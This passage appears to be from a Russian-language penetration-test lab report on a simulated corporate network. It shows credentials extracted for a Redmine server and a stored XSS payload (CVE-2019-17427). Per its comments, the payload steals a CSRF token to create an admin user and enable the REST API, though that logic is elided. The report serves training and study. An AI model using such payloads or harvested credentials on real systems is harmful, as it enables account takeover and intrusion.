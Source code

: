**Извлеченные данные:**
```
URL: http://redmine.ampire.corp/
Username: dev1
Password: qwe123!@#
```

## Этап 3: Атака XSS на Redmine (CVE-2019-17427)

### Внедрение вредоносного кода

С Manager Workstation была проведена XSS атака на Redmine. На (рис. [-@fig:007]) показана wiki страница с внедренным payload:

![Wiki страница с XSS payload](image/7.png){#fig:007 width=100%}

Исходный код страницы с вредоносным JavaScript представлен на (рис. [-@fig:009]):

![Исходный код страницы с вредоносным JavaScript](image/9.png){#fig:009 width=100%}

**XSS Payload:**
```html
<pre onfocusin="let xhr=new XMLHttpRequest;
xhr.onreadystatechange=function(){
  if(4===xhr.readyState){
    // Извлечение CSRF токена
    // Создание admin пользователя "hacker"
    // Включение REST API
  }
},
xhr.open('GET','http://redmine.ampire.corp/settings?tab=api'),
xhr.send();" tabindex=1>
```
